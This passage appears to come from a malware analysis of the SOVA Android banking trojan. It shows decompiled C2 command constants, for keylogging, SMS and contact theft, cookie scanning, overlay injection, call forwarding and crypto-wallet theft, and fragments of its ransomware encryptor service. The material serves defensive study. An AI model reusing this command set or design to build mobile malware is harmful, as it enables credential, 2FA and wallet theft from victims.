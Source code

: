 ```cs
        Const.delapp = "delapp";
        Const.starthidenpush = "starthidenpush";
        Const.stophidenpush = "stophidenpush";
        Const.hidesms = "starthidesms";
        Const.stophidensms = "stophidesms";
        Const.scancookie = "scancookie";
        Const.stopcookie = "stopcookie";
        Const.scaninject = "scaninject";
        Const.stopscan = "stopscan";
        Const.getsms = "getsms";
        Const.startkeylogs = "startkeylogs";
        Const.stopkeylogs = "stopkeylogs";
        Const.contactssender = "contactssender";
        Const.sendsms = "sendsms";
        Const.openinject = "openinject";
        Const.getapps = "getapps";
        Const.sendpush = "sendpush";
        Const.enableinject = "enableinject";
        Const.runapp = "runapp";
        Const.callForward = "forwardcall";
        Const.call = "call";
        Const.disableinject = "disableinject";
        Const.getcontacts = "getcontacts";
        Const.startMute = "startmute";
        Const.stopMute = "stopmute";
        Const.gettrustwallet = "gettrustwallet";
        Const.getexodus = "getexodus";
        Const.remote = new Remote(null, null, null, 7, null);
    
```

Now I will start explaining the major functions of the malware such as Stealing SMS and contacts, ransomware, intercept 2FA, overlay attack, forward call, and mute state. In `PingTasks` method, we will find commands from C2 server which will be received to the malware to do the malicous functions. We will show the command from the C2 server and then explain the function of the command.

In this version of SOVA, the malware comes with ransomware capability which will encrypt the victim's files with AES algorithm and the extenstion of the encrypted files will be `.enc`. 

```cs
  public void onCreate() {
        Intrinsics.checkNotNullExpressionValue("Created encryptor service", "TDE(\"Created encryptor service\")");
        RemoteLogger.log$default(this.logger, "Created encryptor service", null, null, null, 14, null);
        super.onCreate();
    }

    @Override  // android.app.Service
    public void onDestroy() {
        super.onDestroy();
        Intrinsics.checkNotNullExpressionValue("Destroyed encryptor service", "TDE(\"Destroyed encryptor service\")");
        RemoteLogger.log$default(this.logger, "Destroyed encryptor service", null, null, null, 14, null);
    }

    private final void onEncryptionEnd() {
        Intrinsics.checkNotNullExpressionValue("Stopped encryptor", "TDE(\"Stopped encryptor\")");
        RemoteLogger.log$default(this.logger, "Stopped encryptor", null, null, null, 14, null);
        this.preferences.isDeviceEncrypted(Boolean.valueOf(true));
        this.stopForeground(true);
        this.stopSelf();
    }
```